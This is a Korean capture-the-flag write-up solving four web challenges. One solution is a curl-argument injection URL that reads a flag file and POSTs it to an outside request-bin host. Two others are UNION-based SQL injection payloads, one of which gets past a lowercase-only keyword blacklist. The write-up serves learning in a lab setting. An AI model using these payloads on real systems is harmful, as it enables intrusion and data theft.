









## Rednose U


`SSTI`로 `JWTKey`를 얻을 수 있어서 대시보드에 접속할 수 있다.

<br>




대시보드를 보면 `/api/metar`에서 `airport` 인자로 특정 주소에서 값을 가져오는 것으로 보이는데, 코드를 보면 `curl`을 실행하는 것을 확인할 수 있다.

<br>



그래서 플래그를 읽어서 리퀘스트 빈에 보내도록 하였다.

`http://211.177.227.113:65303/api/metar?airport=-X%20POST%20https://cqymucy.request.dreamhack.games%20-d%20%22$(cat%20flag_qaiu.txt)%22` 

<br>

## W2





`fstring`으로 쿼리문을 처리하기 때문에 `SQLI` 취약점이 터진다.

`flags` 테이블에 있는 플래그를 `UNION` 명령을 통해 출력하도록 하였다. 블랙리스트에 있는 `select`는 소문자만 막기 때문에 대문자로 우회 가능하다.

`http://211.177.227.113:65304/profile?id=1234%20UNION%20SELECT%20%27flag%27,flag_value,%27%27,%27secret%27%20FROM%20flags%20WHERE%20flag_name=%27main_flag%27--`

<br>

## SRS

````
L7_WH_CTF/SRS/for_user via  v3.13.5 
❯ cat flag_server.py | grep Layer7{
        'flag': 'Layer7{ssrf_easy}',
````

문제 파일에 플래그가 하드코딩 되어있다.

<br>

## T야?



여기도 `fstring`으로 쿼리문을 처리해서 `SQLI`가 터지는 걸 알 수 있다.

<br>



`flags` 테이블에서 플래그를 가져와 `username`에 `UNION` 해줬다.

`' UNION SELECT 1, flag_value, 'dummy', 'admin' FROM flags --`
